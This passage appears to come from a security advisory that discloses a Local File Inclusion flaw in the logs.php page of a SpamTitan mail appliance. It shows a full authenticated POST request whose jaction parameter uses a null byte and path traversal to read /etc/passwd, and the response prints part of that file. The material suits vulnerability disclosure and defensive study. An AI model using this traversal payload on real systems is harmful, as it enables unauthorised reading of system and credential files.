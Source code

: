 
The following authenticated HTTP POST request allows an attacker to exploit the Local File Inclusion vulnerability to return /etc/passwd content via jaction parameter.

#### Request:
{% highlight ruby %}
POST /logs.php HTTP/1.1
Host: 10.0.0.120
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.0.0.120/logs.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 339
Connection: close
Cookie: st-lastroletype=admin; st-domains=domain%3Ayui-dt-asc%3A15; st-trust=ip%3Ayui-dt-asc%3A15; st-smart=sender%3Ayui-dt-asc%3A15; st-whiteip=ip%3Ayui-dt-asc%3A15; st-blackip=ip%3Ayui-dt-asc%3A15; st-tls=domain%3Ayui-dt-asc%3A15; st-tld=tld%3Ayui-dt-asc%3A15; st-spf=ip%3Ayui-dt-asc%3A15; st-etrnblock=ip%3Ayui-dt-asc%3A15; st-etrnallow=ip%3Ayui-dt-asc%3A15; st-dkim=domain%3Ayui-dt-asc%3A15; st-greyip=ip%3Ayui-dt-asc%3A15; st-rbl=ip%3Ayui-dt-asc%3A15; st-greyname=name%3Ayui-dt-asc%3A15; st-greyrcpt=name%3Ayui-dt-asc%3A15; st-domainpolicies=domain%3Ayui-dt-asc%3A15; st-userpolicies=policy_name%3Ayui-dt-asc%3A15; st-realmadmins=email%3Ayui-dt-asc%3A15; st-admins=email%3Ayui-dt-asc%3A15; st-domainadmins=email%3Ayui-dt-asc%3A15; st-realms=name%3Ayui-dt-asc%3A15; PHPSESSID=83c7c142ef645021ae630f4feb0618dc; st-authdomains=domain%3Ayui-dt-asc%3A5; st-disclaimers=domain%3AASC%3A25; st-disclaimers-exemptions=email%3AASC%3A25; wblist-email=email%3Ayui-dt-asc%3A25; wblist-domain=email%3Ayui-dt-asc%3A25; keywords-W=pattern%3Ayui-dt-asc%3A5; keywords-B=pattern%3Ayui-dt-asc%3A5; qset=bspam_level%3Ayui-dt-asc%3A3%3A150; HistoryRequestOpts=100%3A3; st-todaysreports=ts%3Ayui-dt-asc%3A25; st-scheduledreports=email%3Ayui-dt-asc%3A25; st-archivereports=ctime%3Ayui-dt-asc%3A25; st-alerts=name%3Ayui-dt-asc%3A10; st-roles=name%3Ayui-dt-asc%3A15; st-ratecontrols=10
Upgrade-Insecure-Requests: 1

CSRFName=CSRFGuard_1221655653&CSRFToken=4c3bebd0cf65a0335a444ca33cd5f32e2e9531e8725e61ce49e5b9b98d61f6c706fc592bdf61c6c6c560c24a6cfc7e19725e1564b22af6dbf3482d11be112a21&jaction=download+%00%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd&grep=0&selectedCheckboxVal=none&tab=tab0&maillog_ret=7&cfmalog_ret=14&msglog_ret=10
{% endhighlight %}

#### Response: 
{% highlight ruby %}
HTTP/1.1 200 OK
Date: Sat, 04 May 2019 07:23:39 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Disposition: attachment; filename=passwd
Accept-Ranges: bytes
Vary: Accept-Encoding
Content-Length: 2416
Connection: close
Content-Type: application/x-octet-stream

# $FreeBSD: releng/10.1/etc/master.passwd 256366 2013-10-12 06:08:18Z rpaulo $
#
root:*:0:0:SpamTitan:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin